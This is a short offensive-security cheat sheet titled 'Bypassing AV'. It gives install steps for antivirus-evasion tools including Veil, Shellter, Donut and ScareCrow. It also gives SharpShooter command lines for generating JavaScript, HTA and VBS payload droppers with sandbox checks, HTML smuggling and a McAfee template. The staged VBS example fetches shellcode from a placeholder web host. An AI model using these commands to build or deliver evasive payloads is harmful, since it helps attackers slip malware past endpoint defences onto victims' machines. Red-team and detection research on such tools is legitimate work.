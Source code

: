 # Bypassing AV

### Veil Framework:

Install on Kali:

* apt install veil
* /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

### Shellter

Source: https://www.shellterproject.com/download/

* apt install shellter

### Sharpshooter

Javascript Payload Stageless:

* SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload:

* SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

* SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

### Donut:

Source: https://github.com/TheWover/donut

### Vulcan

Source: https://github.com/praetorian-code/vulcan

### Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali:

sudo apt install golang

go get github.com/fatih/color go get github.com/yeka/zip go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow
